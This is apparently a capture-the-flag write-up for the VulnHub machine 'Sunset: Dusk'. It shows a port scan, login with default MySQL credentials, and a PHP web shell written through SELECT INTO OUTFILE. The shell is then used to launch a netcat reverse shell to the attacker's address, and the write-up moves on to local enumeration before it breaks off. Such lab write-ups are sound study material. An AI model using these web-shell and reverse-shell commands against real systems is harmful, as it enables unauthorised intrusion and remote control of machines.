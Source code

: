 # Sunset: Dusk

https://www.vulnhub.com/entry/sunset-dusk,404/

## Reconnaissance

An intense nmap scan revealed:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.53.6:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b5:ff:69:2a:03:fd:6d:04:ed:2a:06:aa:bf:b2:6a:7c (RSA)
|   256 0b:6f:20:d6:7c:6c:84:be:d8:40:61:69:a2:c6:e8:8a (ECDSA)
|_  256 85:ff:47:d9:92:50:cb:f7:44:6c:b4:f4:5c:e9:1c:ed (ED25519)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: dusk.dusk, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=dusk.dusk
| Subject Alternative Name: DNS:dusk.dusk
| Not valid before: 2019-11-27T21:09:14
|_Not valid after:  2029-11-24T21:09:14
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.18-MariaDB-0+deb10u1
|   Thread ID: 40
|   Capabilities flags: 63486
|   Some Capabilities: InteractiveClient, Support41Auth, Speaks41ProtocolNew, SupportsLoadDataLocal, SupportsTransactions, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, IgnoreSigpipes, Speaks41ProtocolOld, ODBCClient, FoundRows, LongColumnFlag, SupportsCompression, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: AcN=%B[&HyJDTZF2e'0[
|_  Auth Plugin Name: mysql_native_password
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.11-1)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host:  dusk.dusk; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

80 is just the default debian page again, but 8080 seems to be a php server running off /var/tmp, listing its files and running the index.php file there. Looks pretty juicy. nikto on either failed: nothing interesting on the default page, and 8080 is basically just a ftp listing.

Speaking of, ftp did not allow anonymous access. Neither did the mysql endpoint. Playing around with SMTP didn't achieve much. Ultimately a scan with legion, and a check for default credentials, revealed mysql used `root:password`. 

## MySQL to create php shell, then reverse netcat.

The following command got me in to mysql: `mysql -u root -p -h 192.168.53.6` followed by entering the password `password`.

I browsed around for a bit, but found nothing. However, given the :8080 site was a PHP cli site which helpfully listed its exact location on the page, I tried the 'into outfile' trick and it worked:

```
MariaDB [(none)]> select '<?php system($_GET["cmd"]); ?>' into outfile '/var/tmp/cmd.php';
Query OK, 1 row affected (0.001 sec)
```

Then going to the php site, sure enough cmd.php was there. Browsing to it with `192.168.53.6:8080/cmd.php?cmd=ls` ran ls successfully. Time for a reverse netcat shell!

`192.168.53.6:8080/cmd.php?cmd=nc%20192.168.53.4%204444%20-e%20/bin/bash` plus `nc -nvlp 4444` in another prompt got me a reverse nc, then `python -c "import pty;pty.spawn('/bin/bash');"` got me a nice shell.

## On machine enumeration

As `www-data`, I ran `sudo -l`:

```
Matching Defaults entries for www-data on dusk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dusk:
    (dusk) NOPASSWD: /usr/bin/ping, /usr/bin/make, /usr/bin/sl
```

`ping` and `sl` won't provide anything. `make` looked promising, but even though I can execute commands with it they don't run as dusk, just me as www-data.

However, given this server has smtp, I browsed to /var/spool/mail and found three files, for dusk, root and www-data. I copied this into /var/tmp so I could read it better, and it contains many messages that are identical (except for time):

```
From www-data@dusk.dusk  Sat Nov 30 17:50:02 2019
Return-Path: <www-data@dusk.dusk>
X-Original-To: www-data
Delivered-To: www-data@dusk.dusk
Received: by dusk.dusk (Postfix, from userid 33)
	id 17C671824; Sat, 30 Nov 2019 17:50:01 -0500 (EST)
From: root@dusk.dusk (Cron Daemon)
To: www-data@dusk.dusk
Subject: Cron <www-data@dusk> /usr/bin/php -S 192.168.1.167:8080 -t /tmp
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/var/www>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=www-data>
Message-Id: <20191130225002.17C671824@dusk.dusk>
Date: Sat, 30 Nov 2019 17:50:01 -0500 (EST)

[Sat Nov 30 17:50:01 2019] Failed to listen on 192.168.1.167:8080 (reason: Address already in use)
```
